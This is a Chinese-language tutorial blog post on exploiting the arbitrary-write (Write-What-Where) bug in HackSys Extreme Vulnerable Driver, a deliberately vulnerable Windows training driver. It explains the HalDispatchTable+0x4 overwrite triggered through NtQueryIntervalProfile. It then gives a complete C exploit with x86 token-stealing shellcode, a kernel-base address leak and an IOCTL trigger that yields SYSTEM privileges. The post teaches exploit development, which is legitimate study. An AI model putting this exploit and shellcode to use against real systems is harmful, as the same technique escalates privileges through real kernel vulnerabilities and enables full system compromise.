







<small>转载请注明出处哦 :  )</small>

## 0x00 前言
本篇的内容为任意地址覆盖，即 Write-What-Where。

## 0x01 HEVD Write-What-Where 漏洞分析
首先打开 ArbitraryWrite.c 文件



毕竟是供于学习用的项目，漏洞总是这么显眼易懂 : )

显然，我们可以把 what 指针指向的内容写到 where 指针指向的位置。理所当然，what 指针指向的内容应该是指向我们 shellcode 地址的指针。那么问题来了，我们应该把这个指针放到内核的什么地方才能使覆盖既安全又可靠呢？

这里师傅们以前发现了这么一个未文档化的函数 NtQueryIntervalProfile，这个函数在系统中很少被调用，这个函数又调用了 KeQueryIntervalProfile 函数，而 KeQueryIntervalProfile 会执行这么一段汇编代码 call [HalDispatchTable+0x4]，并且对于 [HalDispatchTable+0x4] 的修改不会破坏系统的稳定性

这个过程可以在 windbg 中看到





那么怎么样才可以顺利地让 NtQueryIntervalProfile 调用 KeQueryIntervalProfile，让 KeQueryIntervalProfile 调用 call [HalDispatchTable+0x4]呢？

根据我的调试结果，只要



你调用 NtQueryIntervalProfile 函数的时候传的第一个参数不为 0 （让 NtQueryIntervalProfile 顺利地调用 KeQueryIntervalProfile），并且不为 1 （让 KeQueryIntervalProfile 顺利地调用 call [HalDispatchTable+0x4] ）就可以了

奇怪的是，不知道为什么师傅们传的第一个参数都为 0x1337。虽然 0x1337 确实是满足上面我说的条件的，但是这个值并不是一个普通的 KPROFILE_SOURCE 枚举值



不知道 0x1337 是一个什么样的 specific profile sources 以及为什么要用它呢？有知道的师傅还望教一下我 0 0

好，到目前为止我们已经大致知道该怎么利用漏洞了

> 1. 使用程序中存在的漏洞覆盖 [HalDispatchTable+0x4] 为指向我们 shellcode 的指针值
> 2. 调用 NtQueryIntervalProfile 触发漏洞

### 如何得知 where 的值
what 的地址是由我们使用函数 VirtualAlloc 得到的，所以这个自然不必担心。问题是我们怎么知道 where 的地址应该是多少呢，换句话说，也就是 HalDispatchTable+0x4 的地址。

因为 HalDispatchTable 位于 ntkrnlpa.exe 中，所以
> 1. 使用 EnumDeviceDrivers 来获取 ntkrnlpa.exe 在内核中的基地址
> 2. 使用 LoadLibrary 将 ntkrnlpa.exe 加载到用户空间中并得到它的基地址
> 3. 使用 GetProcAddress 来得到 HalDispatchTable 在用户空间中的地址
> 4. 计算出 HalDispatchTable 与 ntkrnlpa.exe 的基地址的差值
> 5. 将这个差值加到 ntkrnlpa.exe 在内核中的基地址上得到 HalDispatchTable 在内核中的地址

## 0x02 HEVD Write-What-Where 漏洞利用
通过以上的分析相信大家已经知道该如何利用了，这里将整个流程复现一遍

首先贴出 exp。之前的 exp 是用 Python 编写的，但我感觉好像用 c 来编写控制起来是否要更舒服一点？所以本篇代码采用 c 编写，若想用 Python 编写 exp 的小伙伴可以参考一下第一篇文章或是上网搜一下 Python 版的 exp。
```c
// arbitraryWrite.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"

#include <windows.h>
#include <Psapi.h>
#include <stdio.h>

typedef struct _payload {
	PULONG_PTR what;
	PULONG_PTR where;
} Payload, *PPayload;

typedef NTSTATUS(WINAPI *NtQueryIntervalProfile_t)(IN ULONG   ProfileSource,
	OUT PULONG Interval);

char shellcode[] = {
	"\x90\x90\x90\x90"              // NOP Sled
	"\x60"                          // pushad
	"\x31\xc0"                      // xor eax,eax
	"\x64\x8b\x80\x24\x01\x00\x00"  // mov eax,[fs:eax+0x124]
	"\x8b\x40\x50"                  // mov eax,[eax+0x50]
	"\x89\xc1"                      // mov ecx,eax
	"\xba\x04\x00\x00\x00"          // mov edx,0x4
	"\x8b\x80\xb8\x00\x00\x00"      // mov eax,[eax+0xb8]
	"\x2d\xb8\x00\x00\x00"          // sub eax,0xb8
	"\x39\x90\xb4\x00\x00\x00"      // cmp [eax+0xb4],edx
	"\x75\xed"                      // jnz 0x1a
	"\x8b\x90\xf8\x00\x00\x00"      // mov edx,[eax+0xf8]
	"\x89\x91\xf8\x00\x00\x00"      // mov [ecx+0xf8],edx
	"\x61"                          // popad
	"\x33\xc0"                      // xor eax,eax
	"\xc9"                          // leave
	"\xc3"                          // ret
};

int main()
{
	PVOID driversAddress[1024];
	DWORD cbNeeded;
	int cDrivers, i;
	int ntkrnlpaKernelBase;
	TCHAR driverName[1024];
	HMODULE ntkrnlpaUserBase;
	PVOID halDispatchTableAddress;
	PPayload payload = NULL;
	DWORD BytesReturned = 0;

	payload = (PPayload) HeapAlloc(GetProcessHeap(),
		HEAP_ZERO_MEMORY,
		sizeof(Payload));
	
	// find ntkrnlpa.exe kernel base
	if ( EnumDeviceDrivers(driversAddress, sizeof(driversAddress), &cbNeeded) && cbNeeded < sizeof(driversAddress) )
	{

		cDrivers = cbNeeded / sizeof(driversAddress[0]);

		for (i = 0; i < cDrivers; i++)
		{
			if ( GetDeviceDriverBaseName(driversAddress[i], driverName, 1024) )
			{
				char *lowerName = _strlwr(driverName);

				if ( (!strcmp(lowerName, "ntkrnl")) || ( (strstr(lowerName, "ntkrnl")) != NULL ) ) {

					ntkrnlpaKernelBase = i;
					break;
				}
				else {
					continue;
				}
			}
			else {
				printf("get device driver name failed\n");
			}
		}
	}
	else
	{
		printf("Enumerate Device Drivers failed\n");
		return 0;
	}

	printf("driver name is: %s\n", driverName);

	ntkrnlpaUserBase = LoadLibrary(driverName);
	if (!ntkrnlpaUserBase) {
		printf("LoadLibrary failed\n");
	}

	halDispatchTableAddress = GetProcAddress(ntkrnlpaUserBase, "HalDispatchTable");

	DWORD32 whereAddress = (DWORD32)driversAddress[ntkrnlpaKernelBase] +  (DWORD32)halDispatchTableAddress - (DWORD32)ntkrnlpaUserBase + 0x4;
	
	HANDLE hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, NULL, 0x3, 0, NULL);

	// 0x3000 等同于MEM_COMMIT | MEM_RESERVE, 即预留并提交该块内存
	// 0x40 指示了分配的页面的保护属性, 其值等同于PAGE_EXECUTE_READWRITE, 即可读可写可执行
	LPVOID ptr = VirtualAlloc(0, sizeof(shellcode), 0x3000, 0x40);
	RtlCopyMemory(ptr, shellcode, sizeof(shellcode));

	payload -> what = (PULONG_PTR) & ptr ;
	payload -> where = (PULONG_PTR) whereAddress;

	DeviceIoControl(hDevice, 0x0022200B, (LPVOID) payload, sizeof(Payload), NULL, 0, &BytesReturned, NULL);

	HMODULE ntdll = LoadLibrary("ntdll.dll");
	ULONG Interval = 0;

	if (!ntdll) {
		printf("load ntdll.dll failed\n");
		return 0;
	}

	NtQueryIntervalProfile_t NtQueryIntervalProfile = (NtQueryIntervalProfile_t)GetProcAddress(ntdll, "NtQueryIntervalProfile");

	if (!NtQueryIntervalProfile) {
		printf("ntqueryintervalprofile get failed\n");
		return 0;
	}

	NtQueryIntervalProfile(0x1337, &Interval);

	system("whoami");

	return 0;
}

```

这里的 IO Control code 为 0x0022200B，分析方法和上一篇中 IDA 的分析方法一样，不过 HackSysExtremeVulnerableDriver.h 中可以看到所有服务的 IOCTL



计算方法为

```
hex( (0x00000022 << 16) | (0x00000000 << 14) | (0x802 << 2) | 0x00000003 )
```

不过我还是建议大家用 IDA 分析，因为真实场景中你可能看不到源码。

再然后就是 buf（DeviceIoControl 的 buf）的结构问题。



稍作分析你就可以知道 edi 等同于 what，ebx 等同于 where。那么看到这张图我们可以发现 \*UserWriteWhatWhere 的值为 what，\*(UserWriteWhatWhere + 4) 的值为 where。所以我们就可以构建代码中的 struct _payload 结构。（后面就算再放东西也没有意义，前面不能放东西）

至于代码我觉得应该没有什么要解释的了，流程很清晰
> 1. 找到内核空间中 halDispatchTable + 0x4 的地址
> 2. 分配一块具有执行权限的空间存放我们的 shellcode
> 3. 调用 DeviceIoControl 触发漏洞覆盖 [halDispatchTable + 0x4]
> 4. 调用 NtQueryIntervalProfile 执行我们的 shellcode

## 0x03 结束语
大家可以尝试一下自己编写 exp。因为就算你脑子懂了真正写 exp 也可能到处出问题，所以多写写 exp 可以熟练我们编写 exp 的能力。(小声bb) 这次用 c 写这个 exp 就是脑子：懂了，编译器：error 99999 : )

---
<p align='right'>2019.9.1</p>
